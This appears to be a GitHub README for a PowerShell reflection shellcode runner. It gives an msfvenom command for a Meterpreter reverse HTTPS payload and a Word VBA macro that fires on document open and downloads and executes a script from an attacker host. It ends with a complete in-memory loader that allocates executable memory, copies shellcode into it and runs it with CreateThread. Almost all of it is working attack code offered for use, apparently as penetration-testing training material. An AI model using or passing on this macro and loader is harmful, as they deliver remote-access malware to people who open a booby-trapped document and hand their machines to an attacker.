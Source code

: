 # PowerShell-Reflection-Shellcode-Runner

Payload generation

  msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
  
 our Microsoft Office 2016 version of Word is a 32-bit process, which means that PowerShell will also launch as a 32-bit process.

VBA code calling the PowerShell cradle that executes the shellcode runner

                    Sub MyMacro()
                      Dim str As String
                      str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<kali ip>/run.ps1') | IEX"
                      Shell str, vbHide
                    End Sub
                  
                    Sub Document_Open()
                      MyMacro
                    End Sub
                  
                    Sub AutoOpen()
                      MyMacro
                    End Sub

we can also try and use .txt extension 

Complete PowerShell script for in-memory shellcode runner

		function LookupFunc {
		
			Param ($moduleName, $functionName)
		
			$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
		    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
		      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
		    $tmp=@()
		    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
			return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
		}
		
		function getDelegateType {
		
			Param (
				[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
				[Parameter(Position = 1)] [Type] $delType = [Void]
			)
		
			$type = [AppDomain]::CurrentDomain.
		    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
		    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
		      DefineDynamicModule('InMemoryModule', $false).
		      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
		      [System.MulticastDelegate])
		
		  $type.
		    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
		      SetImplementationFlags('Runtime, Managed')
		
		  $type.
		    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
		      SetImplementationFlags('Runtime, Managed')
		
			return $type.CreateType()
		}
		
		$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
		
		[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...
		
		[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
		
		$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) 	
  			([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
		
		[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
		
		  
